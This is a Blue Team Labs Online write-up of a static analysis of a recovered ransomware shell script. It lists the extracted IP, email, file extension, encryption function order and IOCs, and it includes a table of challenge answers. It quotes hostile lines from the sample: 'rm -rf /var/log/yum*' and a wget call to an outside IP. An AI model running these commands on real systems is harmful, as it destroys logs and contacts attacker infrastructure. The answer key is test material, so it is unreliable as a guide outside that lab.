



# Malware Analysis - Ransomware Script

## Challenge Information

| Field | Details |
|---|---|
| Platform | Blue Team Labs Online (BTLO) |
| Category | Malware Analysis |
| Challenge | Ransomware Script |
| Environment | Kali Linux |
| Preparation Context | Blue Team Level 1 (BTL1) |
| Evidence Screenshot | `Screenshot_10.png` |

## Overview

This challenge focuses on the analysis of a recovered script associated with ransomware activity.

The investigation examines the script to identify network indicators, potentially destructive commands, ransom-related message content, contact information, the encrypted file extension, encryption functions, and a URL used to retrieve an external text file.

The analysis uses command-line tools available in Kali Linux, including `grep`, `sed`, and `tail`, to search for relevant strings, inspect selected sections of the script, and determine the order in which encryption functions are executed.

The objective is to demonstrate a practical command-line malware analysis workflow and extract relevant indicators and technical findings from a suspicious script.

## Investigation Objectives

- Identify the IP address embedded in the recovered script.
- Locate the command associated with the removal of Yum log files.
- Extract the message written to `/etc/motd`.
- Identify the contact email address.
- Determine the file extension used by the encryption process.
- Identify the five encryption functions and their execution order.
- Extract the full URL used to retrieve an external text file.
- Document the findings and challenge answers.

## Tools and Utilities

| Tool | Purpose |
|---|---|
| `grep` | Search the script for IP addresses, email addresses, commands, function names, and URLs. |
| `sed` | Display selected lines and inspect specific sections of the script. |
| `tail` | Display the final part of the script to identify the function execution sequence. |
| `sort` | Sort and remove duplicate IP address results. |
| `ls` | List files in the working directory. |

## Evidence and Working Files

| Item | Description |
|---|---|
| `Recovered Script File.txt` | Recovered script examined during the original challenge investigation. |
| `Screenshot_10.png` | Screenshot documenting the BTLO challenge and its questions. |

The original script was examined in the Kali Linux Downloads directory during the challenge. The screenshot included in this repository is retained as supporting challenge evidence.

The original script itself is not included in this repository. The technical findings documented below are based on the original investigation notes and recorded challenge results.


## Investigation Workflow
### 1. Prepare the Working Environment
The recovered script was located in the Kali Linux Downloads directory.

```bash
cd ~/Downloads
ls -l "Recovered Script File.txt"
```

**Purpose:**

- Navigate to the directory containing the recovered file.
- Confirm that the file is present.
- Review basic file metadata.

### 2. Identify the Malicious IP Address

The script was searched for IPv4 address patterns.

```bash
grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" "Recovered Script File.txt" | sort -u
```

**Command explanation:**

- `grep` searches the script using a regular expression.
- `-o` displays only matching strings.
- `-E` enables extended regular expressions.
- `sort -u` sorts the results and removes duplicates.

**Observed result:**

```text
185.141.25.168
```

**Finding:**

The IP address `185.141.25.168` was extracted from the recovered script and documented as a network indicator. Its reputation and current operational status were not independently verified.

### 3. Identify the Yum Log Removal Command

The script was searched for references to Yum.

```bash
grep -i "yum" "Recovered Script File.txt"
```

**Command explanation:**

- `grep` searches the file for the specified text.
- `-i` makes the search case-insensitive.

**Observed result:**

```bash
rm -rf /var/log/yum*
```

**Finding:**

The script contains a command targeting files matching `/var/log/yum*`. The `-r` and `-f` options request recursive and forceful removal. This command could remove Yum-related log files and potentially affect the availability of system activity records. Its presence in the script does not independently establish that it was executed.

### 4. Extract the MOTD Message

The script was searched for references to `/etc/motd`.

```bash
grep -n "motd" "Recovered Script File.txt"
```

**Observed result:**

```text
88:cat>/etc/motd<<EOF
```

The surrounding script content was then displayed.

```bash
sed -n '88,130p' "Recovered Script File.txt"
```

**Command explanation:**

- `grep -n` searches for the specified text and displays the matching line number.
- `sed -n` displays only the selected range of lines.

**Observed message:**

```text
YOU WERE HACKED
```

**Finding:**

The script contains a section that writes content to `/etc/motd`, the system message-of-the-day file. The extracted message is `YOU WERE HACKED`. This is evidence of the message embedded in the script, not proof that it was successfully written to a live system.

### 5. Identify the Contact Email Address

The script was searched for email address patterns.

```bash
grep -oE "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}" "Recovered Script File.txt"
```

**Command explanation:**

- `grep -oE` extracts strings matching the specified email address pattern.
- The regular expression identifies common email address structures.

**Observed result:**

```text
nationalsiense@protonmail.com
```

**Finding:**

The email address `nationalsiense@protonmail.com` is present in the recovered script and is documented as an extracted observable. No attribution or identity claim is made based solely on this address.

### 6. Identify the Encrypted File Extension

The encryption function was located by searching for its name.

```bash
grep -n "encrypt_grep_files" "Recovered Script File.txt"
```

**Observed result:**

```text
121:encrypt_grep_files ()
```

The relevant function body was inspected.

```bash
sed -n '121,155p' "Recovered Script File.txt"
```

**Command explanation:**

- `grep -n` locates the encryption function and displays its line number.
- `sed -n` displays the selected function body for inspection.

**Observed result:**

The encryption output filename uses the following extension:

```text
.☢
```

**Finding:**

The file extension associated with the encryption process is `.☢`. This value was extracted from the output filename pattern in the encryption function.

### 7. Identify the Encryption Functions and Their Execution Order

The script was searched for encryption function definitions.

```bash
grep -n "encrypt" "Recovered Script File.txt" | grep "()"
```

**Observed function definitions:**

```text
121:encrypt_grep_files ()
139:encrypt_home ()
158:encrypt_root ()
176:encrypt_db ()
193:encrypt_ssh ()
```

The final section of the script was inspected to determine the actual function call sequence.

```bash
tail -50 "Recovered Script File.txt"
```

**Command explanation:**

- `grep -n` searches for encryption-related function definitions and displays their line numbers.
- The second `grep` filters the results to function definitions containing `()`.
- `tail -50` displays the final 50 lines, allowing inspection of the function calls at the end of the script.

**Observed execution order:**

1. `encrypt_ssh`
2. `encrypt_grep_files`
3. `encrypt_home`
4. `encrypt_root`
5. `encrypt_db`

**Finding:**

The five encryption functions are executed in the order listed above. The order of function definitions is different from the execution order. The execution sequence was established by inspecting the final section of the script, rather than assuming that functions run in the order in which they are defined.

### 8. Extract the External Text File URL

The script was searched for references to `wget` and `curl`.

```bash
grep -i "wget\|curl" "Recovered Script File.txt"
```

**Command explanation:**

- `grep` searches for the specified strings.
- `-i` performs a case-insensitive search.
- `\|` allows matching either `wget` or `curl` in the regular expression.

**Observed result:**

```bash
wget http://185.141.25.168/check_attack/0.txt
```

**Extracted URL:**

```text
http://185.141.25.168/check_attack/0.txt
```

**Finding:**

The script contains a `wget` command referencing the URL shown above. It is documented as an extracted network indicator. The remote resource was not accessed or independently verified during this investigation.

## Challenge Questions and Answers

| Question | Answer |
|---|---|
| 1. What is the malicious IP address? | `185.141.25.168` |
| 2. What command removes Yum log files? | `rm -rf /var/log/yum*` |
| 3. What are the first three words written to `/etc/motd`? | `YOU WERE HACKED` |
| 4. What contact email address is present in the script? | `nationalsiense@protonmail.com` |
| 5. What file extension is used by the encryption process? | `.☢` |
| 6. What are the five encryption functions in execution order? | `encrypt_ssh`, `encrypt_grep_files`, `encrypt_home`, `encrypt_root`, `encrypt_db` |
| 7. What is the full URL referenced by the script? | `http://185.141.25.168/check_attack/0.txt` |

## Indicators of Compromise (IOCs) and Observables

| Type | Value | Context |
|---|---|---|
| IPv4 Address | `185.141.25.168` | IP address embedded in the script and referenced by the download URL. |
| URL | `http://185.141.25.168/check_attack/0.txt` | External resource referenced by a `wget` command. |
| Email Address | `nationalsiense@protonmail.com` | Contact address extracted from the script. |
| File Extension | `.☢` | Extension used in the encryption output filename pattern. |
| System File | `/etc/motd` | Target of a command that writes the message `YOU WERE HACKED`. |
| Shell Command | `rm -rf /var/log/yum*` | Command found in the script that targets Yum log files. |

**IOC handling note:** The values above were extracted from the script during static analysis. Their reputation, ownership, current availability, and actual use in a live incident were not independently verified.

## Investigation Flow

### 1. Static Analysis Workflow



### 2. Encryption Function Execution Order

The following diagram represents the execution sequence identified in the final section of the script.



### 3. Extracted Indicators and Script Artifacts



These diagrams summarize the analysis workflow and the artifacts extracted from the script. They do not establish that the script was executed successfully on a live system.

## Key Findings

The static analysis of the recovered script identified several relevant artifacts associated with ransomware activity:

- The IP address `185.141.25.168` was embedded in the script.
- A `wget` command referenced an external text file hosted at the identified IP address.
- The script contained a command targeting Yum log files: `rm -rf /var/log/yum*`.
- A script section was designed to write the message `YOU WERE HACKED` to `/etc/motd`.
- The contact email address `nationalsiense@protonmail.com` was identified.
- The encryption output filename pattern used the extension `.☢`.
- Five encryption functions were identified, with their execution order established from the final section of the script.

## Investigation Limitations

- The original recovered script is not included in this repository.
- The findings are documented from the original Kali Linux investigation notes and recorded command outputs.
- No dynamic execution or sandbox analysis is documented as part of this challenge.
- The IP address and URL were extracted from the script, but their reputation and current availability were not independently verified.
- The presence of destructive commands in the script does not prove that they were executed.
- The extracted email address does not establish the identity of the person operating the infrastructure.
- The analysis does not independently establish the impact of the script on a compromised system.

## Conclusion

The challenge demonstrated a practical static malware analysis workflow using standard command-line utilities in Kali Linux.

By combining `grep`, `sed`, and `tail`, relevant network indicators, script artifacts, potentially destructive commands, and encryption function calls were identified without executing the recovered script.

The investigation also demonstrated the importance of distinguishing function definition order from actual execution order and documenting extracted indicators without making unsupported attribution or impact claims.

## Evidence Integrity

| Evidence | SHA256 |
|---|---|
| `Screenshot_10.png` | `F85CEDB4FA5DB9149FF53C0DEFBB75D1542E7565DF5C6A5BAB5F5D7B4E0627F1` |

The SHA256 hash of the copied screenshot was verified against the original source screenshot. Both files produced the same hash, confirming that the copied evidence file is identical to the original.

The original recovered script is not included in this repository, so no hash for that source file is claimed here.

## Skills Demonstrated

- Static analysis of suspicious scripts.
- Regular expression searches with `grep`.
- Targeted script inspection with `sed`.
- Identification of network indicators and observables.
- Recognition of potentially destructive shell commands.
- Analysis of encryption-related functions and execution order.
- Documentation of findings and investigation limitations.
- Evidence integrity verification using SHA256.
- Technical reporting and Mermaid flowchart documentation.
